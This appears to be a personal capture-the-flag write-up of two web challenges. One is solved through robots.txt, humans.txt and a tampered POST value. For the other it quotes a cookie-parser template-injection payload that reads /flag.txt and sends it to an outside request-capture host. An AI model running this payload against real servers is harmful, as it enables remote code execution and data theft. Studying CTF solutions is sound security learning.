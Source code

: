 source - https://blog.hamayanhamayan.com/entry/2024/02/18/114825

# conquest
on entering the url, we see some random text, kind of like a poem. Anyways, I went to /robots.txt since this is a useful place to check. here, I found the next directory
`/tournament` I couldn't get past this stage in the ctf. After reading a writeup, I found out that we're supposed to go to humans.txt file after this
so we go to `/tournament/humans.txt`. on pressing the button that appears here, a post request gets sent to `/legend`. In the post request body, there is a key named `slay` with some random value.
all we need to do is to set this value very high to get the flag.

# just weird things
![image](https://github.com/Ryuou02/ctf-writeups/assets/133224167/818b174b-20ea-43e9-ba5c-567408c9c7c1)
the front page looks kind of like this, it has a default value given as JWT. you can change the name to be anything and it gets inserted in the jwt cookie.
The flag is not obtainable by changing the name since the flag doesn't get fetched from the file to any variable.
Hence it needs to be some kind of vulnerability where you can access the file
in the writeup, they wrote code like this - 
```
>>> import requests
>>> requests.get("http://localhost:32768/", headers={"Cookie": 'jwt=j:{"settings": {"view options": {"localsName": "locals = {body: this.constructor.constructor(`return (async ()=>(fs = await import(\'fs\'), http = await import(\'http\'), req = http.request(\' http://try1.requestcatcher.com/test?\'+fs.readFileSync(\'/flag.txt\')), req.end()))()`)()}"}}}'})
>>>
```
which is meant to exploit vulnerability with npm cookie parser. It gets the flag.txt file contents and sends it as a get request to our website. I found this service - https://requestcatcher.com/ to capture the get request.
